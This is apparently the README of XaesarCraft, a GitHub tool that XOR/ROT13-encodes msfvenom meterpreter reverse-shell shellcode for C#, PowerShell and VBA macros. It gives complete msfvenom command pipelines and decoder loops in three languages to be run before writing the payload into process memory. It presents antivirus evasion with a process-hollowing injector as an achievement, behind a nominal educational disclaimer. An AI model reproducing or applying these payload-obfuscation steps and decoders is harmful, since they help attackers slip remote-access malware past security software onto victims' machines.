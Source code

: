 # XaesarCraft

XaesarCraft is a Python script that enables you to apply different cryptographic operations (XOR, ROT13, or a combination of these algorithms - XOROT) to byte arrays and outputs the results in various formats. 
This tool is useful for processing payloads, especially those generated by msfvenom, in csharp or ps1 formats. Additionally, XaesarCraft can convert the payload into an array format suitable for VBA scripts.

## Disclaimer

This tool is intended for educational and research purposes only. It should not be used for any illegal activities. The author is not responsible for any misuse or damage caused by this program.

## Key Features:

1. Apply XOR, ROT13, or XOROT operations to payloads generated by msfvenom in csharp or ps1 formats
2. Convert payloads into VBA array format
4. Supports custom key for operations ( one for both )
5. Output results in Base64 encoding


## Example of usage:

```
# Using XOROT with default keys (13 for ROT13;) and 0xfa for XOR) to process a payload generated by msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py 

# Using XOROT with default keys to process a payload generated by msfvenom and return result in VBA array for your macros
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py --vba

# Using only ROT13 with custom key (0x13) to process a payload generated by msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py -m rot -n 0x13

# Using XOROT with a custom key (0x13) to process a payload generated by msfvenom and retrun payload base64 encoded
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py -n 0x13 --b64

# Process an input string directly (e.g. a payload snippet), other keys aplies too
python3 XaesarCraft.py --input "[Byte[]] $buf = 0xf8,0xa5,0x6c,0x11,0xfc,0x05" 
```

## Decryption Codes
Decryption codes for the default mode only(!) (C#, PowerShell, VBA). It's recommended to use them just before writing to process memory;):

C#
```
byte xorValue = 0xfa; int rot = 13;
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(buf[i] ^ xorValue); }
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(((uint)buf[i] + rot)); }
```
PowerShell
```
$xorValue = 0xfa; $rot = 13; 
for ($i=0; $i -lt $buf.Length; $i++) { $buf[$i] = [byte]($buf[$i] -bxor $xorValue); }
for ($i=0; $i -lt $buf.Length; $i++) { $buf[$i] = [byte](([uint32]$buf[$i] + $rot)); }
```
VBA
```
Dim xorValue As Byte: xorValue = &Hfa
Dim rot As Integer: rot = 13
For i = 0 To UBound(buf): buf(i) = buf(i) Xor xorValue: Next i
For i = 0 To UBound(buf): buf(i) = (buf(i) + rot) Mod 256: Next i
```

## Achievements 
Usage of a default algo of XaesarCraft and the right place of decode gifts us some benefits in AV evasion ;)

![image](https://github.com/to0thl3ss/XaesarCraft/assets/2934007/f2c2f7fa-b662-48e1-a893-71b2ce9df266)

No additional technics for evasion AVs, just default injector(process hollowing) with "encoded" payload.

## Target Audience

Designed for security researchers, penetration testers, and cybersecurity specialists, XaesarCraft offers comprehensive solutions for effectively creating and obscuring payloads, ensuring high levels of anonymity and protection.
